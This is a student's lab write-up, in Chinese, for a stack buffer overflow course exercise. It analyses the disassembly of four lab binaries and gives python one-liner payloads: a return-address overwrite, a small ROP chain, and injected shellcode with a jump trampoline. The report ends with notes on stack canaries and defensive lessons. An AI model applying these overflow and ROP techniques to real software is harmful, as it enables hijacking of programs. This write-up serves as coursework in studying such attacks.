




# 栈溢出攻击实验
卫兴铎 2024201452
## 题目解决思路
先找到可以被攻击的区域，再找到能够执行目标的代码部分，依据设置的条件寻找不同的攻击方法。

### Problem 1: 
- **分析**：
1. 首先在前面发现 404000 <strcpy@GLIBC_2.2.5>，大致是用它不检查长度来攻击的。strcpy只在func函数中被调用。func被main调用。
2. 要输出字符串，去找 404008 <puts@GLIBC_2.2.5>，main中两个puts均能够正常执行，不是攻击目标，只能找到func1的puts。
3. 思路：用strcpy来修改func的返回地址，跳转到func1中执行。
   一共输入24字节，16位用来填充（8位缓冲区 lea -0x8(%rbp),%rax ；8位保存的指针），8字节修改返回地址（0x401216）。
- **解决方案**：python3 -c 'import sys; sys.stdout.buffer.write(b"A"*16 + b"\x16\x12\x40\x00\x00\x00\x00\x00")' > ans1.txt
               ./problem1 ans1.txt
- **结果**：

### Problem 2:
- **分析**：
1. 寻找攻击点
problem2的main函数,先初始化栈并检查参数，然后读取外部文件，调用两个函数，fucc函数没有使用参数,所以不是攻击点;func函数是攻击点。
```c
  //func中memcpy向8字节的空间放56字节的内容，可以用来攻击
  4012a4:	48 8d 45 f8          	lea    -0x8(%rbp),%rax  // 8字节的缓冲
  4012a8:	ba 38 00 00 00       	mov    $0x38,%edx
  4012ad:	48 89 ce             	mov    %rcx,%rsi
  4012b0:	48 89 c7             	mov    %rax,%rdi
  4012b3:	e8 38 fe ff ff       	call   4010f0 <_init+0xf0>
```
2. 寻找被攻击处
利用00000000004010b0 <.plt.sec>，检索调用printf的函数，找到func2函数，它的作用是依据第一个参数进行不同的输出。
```c
// 第一个参数等于0x3f8，输出0xdd3(%rip)。因为这种情况参数具有指向性，两种情况就选它。
  401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
  40122c:	74 1e                	je     40124c <func2+0x36>
  40122e:	48 8d 05 d3 0d 00 00 	lea    0xdd3(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  401235:	48 89 c7             	mov    %rax,%rdi
  401238:	b8 00 00 00 00       	mov    $0x0,%eax
  40123d:	e8 8e fe ff ff       	call   4010d0 <_init+0xd0>
```
3. 攻击方法：执行func2函数，并设置第一个参数rdi=0x3f8
因为要将rdi赋值0x3f8，且不能写在栈里，找到pop_rdi函数，在函数内部修改寄存器的值
```c
  4012c7:	5f                   	pop    %rdi
  4012c8:	c3                   	ret    
```
思路增加为：func执行后，跳到pop_rdi去修改rdi，pop_rdi再跳到func2去执行
16字节填充（8字节是缓冲区，8字节覆盖保存的指针），
8字节覆盖func的返回地址来跳转到pop_rdi函数内部（0x4012c7），
8字节用于在pop_rdi函数内对rdi进行赋值（0x3f8），这里由于栈对齐插入一个ret的8字节地址（ox4012c8）,
8字节覆盖pop_rdi函数的返回地址来跳转到func2函数（0x401216）。

- **解决方案**：python3 -c 'import sys; sys.stdout.buffer.write(b"A"*16 + b"\xc7\x12\x40\x00\x00\x00\x00\x00" + b"\xf8\x03\x00\x00\x00\x00\x00\x00" + b"\xc8\x12\x40\x00\x00\x00\x00\x00" + b"\x16\x12\x40\x00\x00\x00\x00\x00")' > ans2.txt
               ./problem2 ans2.txt
- **结果**：

### Problem 3: 
- **分析**：
1. 找到func1函数的构造部分
```c
  // 通过立即数赋值，在栈上构造出Your lucky number is 114 
  40122b:	48 b8 59 6f 75 72 20 	movabs $0x63756c2072756f59,%rax  // cul ruoY
  401232:	6c 75 63 
  401235:	48 ba 6b 79 20 6e 75 	movabs $0x65626d756e20796b,%rdx  // ebmun yk
  40123c:	6d 62 65 
  40123f:	48 89 45 c0          	mov    %rax,-0x40(%rbp)
  401243:	48 89 55 c8          	mov    %rdx,-0x38(%rbp)
  401247:	48 b8 72 20 69 73 20 	movabs $0x3431312073692072,%rax // 411 si r
  40124e:	31 31 34 
  401251:	ba 00 00 00 00       	mov    $0x0,%edx
  401256:	48 89 45 d0          	mov    %rax,-0x30(%rbp)
```
2. 寻找进入构造部分的方法
```c
// 要求1：func1函数接收的参数edi是0x72
  401222:	89 7d bc             	mov    %edi,-0x44(%rbp)
  401225:	83 7d bc 72          	cmpl   $0x72,-0x44(%rbp)
  401229:	75 57                	jne    401282 <func1+0x6c>
```
```c
// 要求执行func1函数
   //a.在problem3中，main函数的作用是打开、读取外部文件，将内容传递给func函数进行执行，无明显攻击点。
   //b.func中
   401368:	48 89 05 a1 21 00 00 	mov    %rax,0x21a1(%rip)  // func把栈位置通过rip指针，保存为全局变量，其他函数也可以调用
       // 明显的溢出，栈空间小于拷贝量
   401373:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
   401377:	ba 40 00 00 00       	mov    $0x40,%edx
   40137c:	48 89 ce             	mov    %rcx,%rsi
   40137f:	48 89 c7             	mov    %rax,%rdi
   401382:	e8 69 fd ff ff       	call   4010f0 <memcpy@plt>
       //缓冲区永远位于 saved_rsp 往高地址方向偏移 0x10 的地方  （%rbp - 0x20) - (%rbp - 0x30)
   40135a:	48 89 e5             	mov    %rsp,%rbp
   40135d:	48 83 ec 30          	sub    $0x30,%rsp
   //c.jmp_xs中
       //找到了0x10+saved_rsp的地方，通过全局变量+相对寻址找到位置
   40133c:	48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax        # 403510 <saved_rsp>
   401343:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
   401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)
   40134c:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
   401350:	ff e0                	jmp    *%rax
```
3. 补充 40个字节（32字节缓冲区 + 8字节 saved）才能找到返回地址，地址再占8字节，一共48字节。
48个字节中后八位为jmp_xs函数地址0x401334，
前面是调用func1函数(mov rax, 0x401216; 机器码: 48 c7 c0 16 12 40 00; call rax; 机器码: ff d0)，
并且将其参数设为0x72（mov rdi, 0x72; 机器码: bf 72 00 00 00），
加上填充部分.
- **解决方案**：终端命令
python3 -c 'import sys; sys.stdout.buffer.write(b"\xbf\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0" + b"A"*(40-14) + b"\x34\x13\x40\x00\x00\x00\x00\x00")' > ans3.txt && ./problem3 ans3.txt

- **结果**：

### Problem 4: 
- **分析**：
在函数开始时，从一个安全的内存区域取出一个随机数值，并将它放置在栈帧的底部，在保存的 rbp 和 返回地址之前。
```c
    //  在栈中插入金丝雀
    136c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
    1373:	00 00 
    1375:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
```
当函数执行结束准备返回时，程序会检查栈上的 Canary 值是否被修改。
```c
   // 检查，相等程序正常返回结束；否则转入3fb0 <__stack_chk_fail@GLIBC_2.4>立即终止程序，从而阻止攻击者劫持
    140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
    1415:	00 00 
    1417:	74 05                	je     141e <func+0xc1>
    1419:	e8 b2 fc ff ff       	call   10d0 <_init+0xd0>
    141e:	c9                   	leave  
    141f:	c3                   	ret  
```
如果要通过栈溢出进行攻击，其目的是为了修改返回地址，方法为在输入时会从低位地址向高位地址过多输入，而金丝雀的地址比返回地址低。若要修改返回地址，金丝雀值必将被修改。则此时程序应该停止，以免危险。
- **解决方案**：
一共会有3次输入，前两次输入随意，最后一次输入输入-1即可，无需设计payload.

problem4中，main函数的前一大部分都是在用凯撒函数解析字符串，从而产生出现在终端的问句，同时进行两次无意义的输入。直到157F开始进行第三次输入，之后进入func函数。若在func中不exit，则会持续这个阶段的操作。在func函数中，从edi中提取唯一参数，与-1进行比较，相等则进入func1函数，返回func后会执行exit函数，退出程序；否则执行func函数余下部分,回到main中循环。

- **结果**：

## 思考与总结
有些不检查输入长度的函数慎用。
调用栈的时候最好设置金丝雀，每用一次设置一次。
栈最好改成可执行但不可修改的形式。
要考虑所写代码中是否有能够直接使用或修改寄存器的部分，来防止攻击。
小心设置全局变量，避免全局变量与相对寻址共同作用，而成为攻击点。

## 参考资料
教材和ppt
